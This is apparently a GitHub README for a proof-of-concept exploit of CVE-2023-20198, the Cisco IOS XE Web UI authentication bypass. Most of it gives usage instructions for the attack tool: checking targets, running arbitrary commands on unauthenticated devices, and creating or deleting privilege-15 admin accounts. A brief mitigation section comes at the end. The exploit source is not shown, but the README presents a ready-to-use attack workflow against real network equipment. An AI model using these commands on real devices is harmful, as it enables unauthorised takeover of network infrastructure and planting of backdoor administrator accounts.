






# Cisco IOS XE Authentication Bypass (CVE-2023-20198)

This repository contains a **proof-of-concept exploit** for **CVE-2023-20198**, an authentication bypass vulnerability affecting **Cisco IOS XE Web UI**.

The vulnerability allows **unauthenticated attackers** to execute arbitrary commands on vulnerable Cisco devices via crafted SOAP requests, potentially leading to **full device compromise**, including **remote command execution** and **creation/deletion of administrative users**.


## Vulnerability Overview

* **CVE**: CVE-2023-20198
* **Affected Product**: Cisco IOS XE (Web UI / WSMA Interface)
* **Impact**:

  * Authentication bypass
  * Remote command execution (RCE)
  * Unauthorized user creation
  * Unauthorized user deletion
* **Attack Vector**: Network (HTTP/HTTPS)
* **Privileges Required**: None (unauthenticated)

This vulnerability is caused by improper authentication handling in the **Web Services Management Agent (WSMA)** endpoint, allowing attackers to bypass authentication using crafted HTTP requests.

## Requirements

* Python 3.x
* `requests`
* `colorama`

Install dependencies:

```bash
pip install -r requirements.txt
```

## Usage

```bash
usage: main.py [-h] -t TARGET [-c] [-C CMD] [-a] [-d] [-u USERNAME] [-p PASSWORD]

Authentication Bypass Exploit for Cisco IOS XE Devices (CVE-2023-20198)

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target Cisco IOS XE Device
  -c, --check           Check if the Target is vulnerable to CVE-2023-20198
  -C CMD, --cmd CMD     Cisco IOS XE Command to Execute
  -a, --add             Add New Username and Password
  -d, --delete          Delete existing User
  -u USERNAME, --username USERNAME
                        Username for Account Creation
  -p PASSWORD, --password PASSWORD
                        Password for Account Creation (Random Password Generated if not Provided)
```


### Command Line Options

| Option             | Description                                       |
| ------------------ | ------------------------------------------------- |
| `-t`, `--target`   | Target Cisco IOS XE Device (Required)             |
| `-c`, `--check`    | Check if the target is vulnerable                 |
| `-C`, `--cmd`      | Execute a Cisco IOS XE command                    |
| `-a`, `--add`      | Add a new administrative user                     |
| `-d`, `--delete`   | Delete an existing user                           |
| `-u`, `--username` | Username for account creation/deletion            |
| `-p`, `--password` | Password for new account (random if not provided) |

## Vulnerability Check

Check if the target is vulnerable:

```bash
python3 exploit.py -t https://<TARGET-IP> -c
```


If vulnerable, the tool will automatically detect the **exploitable WSMA endpoint** and display device details.

## Remote Command Execution

Execute commands on the vulnerable device:

```bash
python3 exploit.py -t https://<TARGET-IP> -C "<COMMAND>"
```

Example:

```bash
python3 exploit.py -t https://<TARGET-IP> -C "show running | include username"
```


## Add Administrative User

Create a new **privilege 15 admin user**:

```bash
python3 exploit.py -t https://<TARGET-IP> -a -u cisco -p kaptaan
```


If no password is supplied, the script generates a **random secure password automatically**.

### Accessing Web Interface

With the newly created account, you can access the Web UI of the Device



## Delete Existing User

Delete an existing user:

```bash
python3 exploit.py -t https://<TARGET-IP> -d -u cisco
```


## Detection & Mitigation

* Upgrade Cisco IOS XE to the **latest patched version**

* Disable Web UI if not required:

  ```bash
  no ip http server
  no ip http secure-server
  ```

* Restrict management access via ACLs

## References

* Cisco Advisory — CVE-2023-20198
* NVD: CVE-2023-20198
* Cisco IOS XE WSMA Documentation
* Security Research Community Reports